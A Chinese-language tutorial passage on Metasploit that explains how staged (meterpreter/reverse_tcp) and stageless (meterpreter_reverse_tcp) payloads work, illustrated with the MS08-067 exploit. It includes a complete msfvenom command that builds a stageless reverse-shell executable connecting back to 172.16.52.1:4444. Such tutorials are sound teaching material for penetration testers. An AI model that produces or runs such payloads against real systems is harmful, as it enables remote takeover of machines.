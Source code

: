 在 MSF 里有很相似的 metasploit payload,比如

```
payload/windows/x64/meterpreter/reverse_tcp  normal  No  Windows Meterpreter (Reflective Injection x64), Windows x64 Reverse TCP Stager
payload/windows/x64/meterpreter_reverse_tcp  normal  No  Windows Meterpreter Shell, Reverse TCP Inline x64
```

这2者有什么关系呢?以 08067 模块的利用为例

**Stage**

- bootstrap(starger) : shellcode
- metserv : Meterpreter 核心文件
- stdapi : 计算机文件、系统、网络等属性的访问
- priv : 权限提升、转储密码 hash 和本地提权

当我们使用 metasplit 的 ms08_067_netapi 模块之后，使用 payload/windows/meterpreter/reverse_tcp 模块，并开启一个 multi/handler 连接监听着我们本机的 4444 端口，有了解过缓冲区溢出的同学可能都知道，攻击者会利用软件的某个缺陷来传输一段很长的 shellcode 来溢出目标的缓冲区，从而控制 EIP 指针来跳转到我们的 shellcode 上，执行我们的代码，但是这段 shellcode 并不能过长，shellcode 过长，可能会导致覆盖到了上一函数栈帧的数据，导致异常的发生。所以像我们攻击者最希望就是生成一段短小精悍的 shellcode

![](../../../assets/img/Security/安全工具/Metasploit/1.png)

像下面这张图，我们攻击机像目标靶机发送了一段 shellcode，并覆盖了 EIP，导致程序执行的时候跳回 shellcode 的开头，从而控制程序的执行情况，执行我们的恶意代码，这段恶意代码就只要干两件事，第一件事就是向内存申请开辟一块空间，第二件事就是回连我们的 4444 端口，这段 shellcode 为我们干的事情就好像是一个前排冲锋的战士，打开城墙的大门好让更多的精兵冲进来。我们称这段 shellcode 为 stage0，也就是第一阶段

![](../../../assets/img/Security/安全工具/Metasploit/2.png)

这时，我们的攻击机，已经开始监听 4444 端口了，只要连接一成功，就会把 meterpreter shell 最核心的 dll 文件发送到靶机上

![](../../../assets/img/Security/安全工具/Metasploit/3.png)

我们之前说过，当靶机运行了我们的 shellcode，会在内存里面开辟一块土地，这个地方就是为我们的 metsrv 留的，metsrv.dll 这个文件是 meterpreter 的核心组件，有了他，我们才能获取到一个 meterpreter shell，当 metsrv 传输成功之后，shellcode 就会把控制权转给 metsrv，metsrv 这时再去请求另外两个 dll 文件 stdapi 和 priv。这个时候目标就上线了.

![](../../../assets/img/Security/安全工具/Metasploit/4.png)

**Stageless**

现在我们知道了 meterpreter/reverse_tcp 是分阶段的 shellcode，并且他分阶段的原因是因为在溢出攻击的时候 shellcode 应该尽可能保持得更短，这个时候理解他小兄弟 meterpreter_reverse_tcp 就方便的多，和 meterpreter/reverse_tcp 不同的是，他的小兄弟 meterpreter_reverse_tcp 是一个不分阶段的 payload，我们称之为 stageless(unstage)，他在生成的时候就已经将我们获取一个 meterpreter 必须要用的 stdapi 已经包含在其中了。那这又有什么好处呢？试想一下，如果我们通过层层的代理，在内网进行漫游，这个时候使用分阶段的 payload 如果网络传输出现了问题，metsrv.dll 没有加载过去，可能就会错失一个 shell，stageless 的 payload 会让人放心不少

默认的 stageless payload 只会包含 stageless，所以如果想将 stdapi 和 priv 两个组件给包含进去的话我们可以用 extensions 命令：
```bash
msfvenom -p windows/meterpreter_reverse_tcp LHOST=172.16.52.1 LPORT=4444 EXTENSIONS=stdapi,priv -f exe -o stageless.exe
```

**回弹至 nc**
